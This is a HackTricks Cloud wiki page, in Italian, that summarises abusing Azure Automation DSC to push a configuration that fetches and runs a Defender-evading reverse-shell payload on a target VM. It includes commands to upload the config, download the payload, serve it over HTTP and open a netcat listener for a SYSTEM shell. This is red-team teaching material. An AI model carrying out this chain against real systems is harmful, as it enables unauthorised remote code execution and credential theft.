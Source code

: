 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Controlla il post completo in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Riepilogo della Preparazione e dei Passaggi dell'Infrastruttura del Server Remoto (C2)

#### Panoramica

Il processo prevede la configurazione di un'infrastruttura di server remoto per ospitare un payload modificato di Nishang `Invoke-PowerShellTcp.ps1`, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload è servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Passo 1 — Creare File

* **File Richiesti:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di Desired State Configuration (DSC) che recupera ed esegue il payload. È disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione nella VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Personalizzazione:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi nomi delle risorse, percorsi dei file e identificatori del server/payload.

#### Passo 2 — Comprimere il File di Configurazione

* Il `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento all'Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Imposta il contesto di archiviazione e carica

* Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Lo script viene modificato per specificare la VM Windows target e la porta per la reverse shell.

#### Step 5 — Pubblica il file di configurazione

* Il file di configurazione viene eseguito, risultando nel deployment dello script della reverse shell nella posizione specificata sulla VM Windows.

#### Step 6 — Ospita il payload e imposta il listener

* Viene avviato un Python SimpleHTTPServer per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in arrivo.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Il compito pianificato esegue il payload, ottenendo privilegi a livello di SYSTEM.

#### Conclusione

L'esecuzione riuscita di questo processo apre numerose possibilità per ulteriori azioni, come il dumping delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia a continuare a imparare e a essere creativi nel campo di Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
